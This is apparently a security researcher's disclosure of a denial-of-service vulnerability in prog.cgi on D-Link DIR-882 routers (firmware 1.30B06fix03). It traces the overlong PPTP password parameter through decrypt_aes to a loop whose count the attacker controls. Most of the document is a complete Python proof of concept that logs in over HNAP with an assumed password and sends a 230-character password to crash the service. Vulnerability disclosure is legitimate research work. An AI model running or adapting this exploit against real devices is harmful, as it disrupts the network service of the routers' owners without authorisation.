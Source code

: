 # Dlink DIR-882 DOS vulnerability
## Overview
- Manufacturer's website information：https://support.dlink.com/index.aspx 
- Firmware download address ：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
There is an DOS vulnerability in Dlink DIR-882_A1_FW1.30B06fix03, which can cause prog.cgi to crash.

## Affected version
![](pic/version.png "")
Figure shows the latest firmware ：A1_FW1.30B06fix03 of the router
## Vulnerability details
The firmware version can be found is 1.30 on the web.

![](pic/web.png "")

In prog.cgi,We can find the details in the code of setting PPTP function in sub_466B38,the program passes the contents obtained by the /SetWanSettings/Password parameter to V100.

![](pic/code1.png "")

The V100 parameter is called by the function decrypt_aes (). In the decrypt_aes () function, it is passed to the sub_427184 ().

![](pic/code2.png "")

In the function sub_427184 (), the length of the passed-in parameter is called as the number of cycles in two for loops.

![](pic/code3.png "")

Therefore, the number of cycles is controllable, and if the number of cycles is long enough, it will lead to dos.
## Vulnerability exploitation condition
Need to get cookie after logging in to execute the attack.

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the following POC attacks

Poc is as follows:
```python
import math
import re
import time
from hashlib import md5

import requests

IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())


def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b


for i in range(REPEAT_TIMES):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}', data=payload, headers=headers)

    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)

    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()

    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')

    data_password = 'A' * 230
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWanSettings xmlns="http://purenetworks.com/HNAP1/">
			<Type>DynamicPPTP</Type>
			<Username>test</Username>
			<Password>{data_password}</Password>
			<MaxIdleTime>0</MaxIdleTime>
			<HostName/>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName></ServiceName>
			<AutoReconnect>true</AutoReconnect>
			<IPAddress></IPAddress>
			<SubnetMask/>
			<Gateway/>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU>1492</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWanSettings>
	</soap:Body>
</soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetWanSettings"'
    headers['HNAP_AUTH'] = hnap_auth("SetWanSettings", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
After running poc, the process number of prog.cgi has changed, indicating that prog.cgi has been restarted, and normal data packets will not cause the process change.
Before running:

![](pic/a1.png "")

After running:

![](pic/a2.png "")

## CVE-ID
unsigned
